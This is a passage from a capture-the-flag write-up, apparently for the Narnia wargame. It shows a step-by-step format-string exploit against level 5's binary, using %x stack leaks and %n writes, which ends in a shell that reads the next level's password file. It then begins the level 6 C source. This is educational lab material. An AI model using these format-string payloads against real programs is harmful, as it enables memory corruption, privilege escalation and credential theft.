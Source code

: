 ```sourceCode
narnia5@melinda:/narnia$ ./narnia5 `python -c "print 'aaaa'+'%x'*10"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [aaaaf7eb75b6ffffffffffffd6aef7e2fbf8616161616265376636623537666] (63)
i = 1 (0xffffd6cc)
```

Sure enough we see the beginning of the input string after the 4th `%x`. So we then put the address if `i` into that location like and shorten the number of `%x`.

```sourceCode
narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*5"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8ffffd6cc] (44)
i = 1 (0xffffd6cc)
```

Now we have the address of `i`, we use `%n` to write to that address, remembering to remove one `%x` to keep the right length.

```sourceCode
narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*4 + '%n'"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8] (36)
i = 36 (0xffffd6cc)
```

So we see that we've written the length of the string into `i`. We already have a value of 36, but we need 500. To achieve this we need to pad the string.

```sourceCode
narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%500d' + '%n'")
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6ae                                   ] (63)
i = 528 (0xffffd6cc)
```

We're _28_ over the target, so let's reduce the padding

```sourceCode
narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%472d' + '%n'")
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
[password]
```

## Level 06

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
    char b1[8], b2[8];
    int  (*fp)(char *)=(int(*)(char *))&puts, i;

```